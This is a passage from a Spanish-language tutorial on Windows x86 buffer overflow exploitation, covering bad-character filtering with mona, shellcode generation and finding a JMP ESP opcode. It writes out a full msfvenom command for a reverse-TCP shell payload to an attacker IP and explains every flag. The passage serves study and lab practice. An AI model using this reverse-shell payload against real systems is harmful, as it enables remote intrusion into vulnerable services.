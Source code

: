 ### Esto lo que hará sera crear un archivo **compare** en la misma carpeta de trabajo indicada con los *badchars*.  De esta manera podríamos ir creando el **byte array** excluyendo con mona los bytes que el programa no interpreta como **!mona bytearray -cpb "\\x00\\x{bad_char}"**.

### Una vez creado el **byte array** con los **badchars** excluidos, no deberíamos tener ningún problema a la hora de ejecutar nuestro shellcode a futuro. Por lo que en este caso toca encontrar el espacio den memoria que apunte al ESP ya que no podemos apuntar directamente a este y necesitamos apuntara a un registro en memoria que se encarge de realizar un salto al ESP.

## Creando el shellcode 

### Para crear el shellcode lo podemos hacer de manera manual o con herramientas como **msfvenom**.

### `msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.33 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`

### En esta caso con el **-p** indicamos el *payload*, con **--plaform** claramente la *plataforma*, con **-a** la **arquitectura** (En este caso 32bits = x86), con **LHOST** nuestra *IP* de atacante a donde queremos recibir la conexión y con **LPORT** el *puerto*, con **-f** el *formato* (Python, C, etc.), con **-e** el *encoder* a usar (En caso de tener muchos badchars y usar el shikata_ga_nai aveces no podrá encodear todo de una manera optima, en esos caso es mejor no especificar un *-e* y dejar que msfvenom se encarge de aplicar el más optimo), con **-b** los *badchars* y el **EXITFUNC=thread** es para que a la hora de terminar la conexión con la consola interactiva no mate el proceso padre (El programa vulnerable a buffer overflow) para no crashear el programa, de esta manera creamos un hilo que a la hora de salir de la consola se mantenga el servicio inicial y solo se termine el nuevo proceso hijo que se abrirá. 

### Una vez creado el shellcode, solo tendríamos que encontrar un **OpCode** para que podamos apuntar al ESP donde esta nuestro shellcode.

### Para buscar el *OpCode* podríamos hacer uso de la herramienta *nasm_shell.rb* para entrar en modo interactivo :

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb  
# Una vez en modo interactivo escribimos los siguiente 
jmp ESP 
```
